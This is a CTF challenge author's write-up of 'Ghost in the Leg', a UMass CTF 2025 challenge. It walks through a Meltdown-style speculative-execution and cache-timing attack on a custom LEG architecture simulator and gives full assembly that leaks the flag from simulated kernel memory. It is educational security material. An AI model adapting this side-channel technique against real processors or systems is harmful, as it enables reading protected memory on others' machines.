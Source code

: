 ```yaml
---
title: "UMass CTF 2025 - Ghost in the Leg"
date: 2025-04-20T20:00:00-05:00
draft: false
toc: false
images:
tags:
  - writeups
  - hardware
  - pwn
  - author
---
```


This is a challenge I wrote for UMass CTF 2025 using a special version theLEG™ computer architecture.  I'll have a separate series of blog posts on the architecture itself and why it is interesting, but for this I want to go over the specifics of the challenge.

## The Challenge
Participants in the CTF were given the following prompt:

> TheLEG™ just got updated with a brand new UI and speculative execution extension! Surely no one can read data from kernel space...
>
> The flag is at address 0x800000
>
> Source for this challenge can be found at: http://bit.ly/43UdRzz
>
> It is highly recommended to try solutions locally before running them on remote, it will be easier to debug and MUCH faster.

They were also provided a remote server with a web interface that looks like this:

![Leg UI](./images/1-leg_ui.png)

## The LEG
The LEG is a very minimal ARM based architecture that was originally designed for the CS535 class at UMass Amherst.  It has a fixed length 32 bit instruction, and can only address on registers and immediate values.  

For this challenge, I wrote a LEG simulator in Python that has an out of order execution extension based on Tomasulo's Algorithm and a G-share branch predictor. It also supports hardware exception handling for certain limited exceptions.

## The Vulnerability
This version of the LEG can be attacked with a version of the Meltdown vulnerability that affects certain Intel processors.  A good place to begin learning about this vulnerability is [with the initial paper that reported it](https://meltdownattack.com/meltdown.pdf).  The paper is well constructed and explains the attack well, which is somewhat uncommon in academic attack papers.

## Running the Exploit
The exploit can be thought of in a series of steps:

### Step 1: Access kernel memory
We know the flag is at 0x800000, so the first step is to load the data from that address into a register.

```asm
mov r0, 0x8000
lsl r0, 0x8
ldr r1, r0
```

We now have the data from the kernel address in a reorder buffer entry that will write to `r1`.  If we run this as it is though, it will throw an exception and the data will never make into the physical register, so we'll never see it.

### Step 2: Store the data before the exception handler finishes
The next thing we have to do is leak the data.  The key insight is that the value from the kernel exists in the reorder buffer for around 50 clock cycles before it is wiped, and other instructions can access that data in the meantime.

An easy side channel can be established through cache timings.  First, we need to flush the cache so it is completely empty.  This means any cache access will take roughly 15 cycles.
```asm
flush
```

Next, take the value that was retrieved from the kernel.  We'll leak one byte at a time, so we'll shift and mask so we only have one byte from the word the kernel returned:
```asm
lsr r1, 24
and r1, 0xFF
```
Once we have the byte, we multiply it by the size of a cache line (64), then access the cache at the index of the kernel value.  This means there will only be one "hot" line in the cache - the line at the index of the kernel value.

```asm
lsl r1, 0x6
ldr r2, r1
```

### Step 3: Handle the exception
We now wait for the exception to throw and handle it without crashing.  This can be done through the LEG interface.  The exact address will change for each program, but the following is an example:
```asm
.handler DATA_ABORT
    b 0x20
```

### Step 4: Retrieve the value from the cache
To retrieve the value, we will loop through each line of the cache, and save the index that returns its data the fastest.  This will be the "hot" cache line, and will be at the index that was determined by the kernel byte!

```asm
mov r1, 0x1      ; current fastest
mov r4, 0xFFF    ; fastest time
mov r2, r1       ; current fastest cycles

; Loop
mov r5, r2
mul r5, 0x40 
add r5, 0x4

cycles r6       
ldr r7, r5
cycles r7

sub r7, r6
cmp r7, r4
bgt 0x7c        ; timing not the fastest, skip store
mov r4, r7      ; timing fastest seen, store index
mov r1, r2

add r2, 0x1     
cmp r2, 0x100
ble 0x50        ; loop back to beginning if still bytes to check

; Store result
str r1, 0x100
```

The memory address at 0x100 will contain the first byte of the flag!

## Final solution
The following script and exception handler will dump the whole flag when run against the LEG.  It is the same as the principle outlined above, but has a few more bells and whistles with the assembly.

```asm
; Setup
mov r9, 0x30
mov r10, 0x0     ; iterations
mov r11, 0x100   ; place to store flag

; Access kernel addr
flush             ; clean cache
mov r0, 0x8000
lsl r0, 0x8
add r0, r10
ldr r1, r0

; Access cache at kernel addr
mov r3, r10
mod r3, 0x4
mul r3, 0x8
mov r4, 0x18
sub r4, r3
lsr r1, r4
and r1, 0xFF
lsl r1, 0x6
ldr r2, r1

; Check to see which line is the fastest
; Setup
mov r1, 0x1     ; current fastest
mov r4, 0xFFF   ; fastest time
mov r2, r1      ; current fastest cycles

; Loop
mov r5, r2
mul r5, 0x40    ; cache line length
add r5, 0x4

cycles r6       
ldr r7, r5
cycles r7

sub r7, r6
cmp r7, r4
bgt 0x7c
mov r4, r7
mov r1, r2

add r2, 0x1
cmp r2, 0x100
ble 0x50

; Store result
str r1, r11
add r11, 0x4
add r10, 0x1

; check to see if we should finish
cmp r9, r10
bge 0x0c
halt
```

```asm
.handler DATA_ABORT
    b 0x20
```

## Final Thoughts
I enjoyed making this challenge, and felt like I learned a lot while doing it.  Hopefully if you played it you enjoyed it too.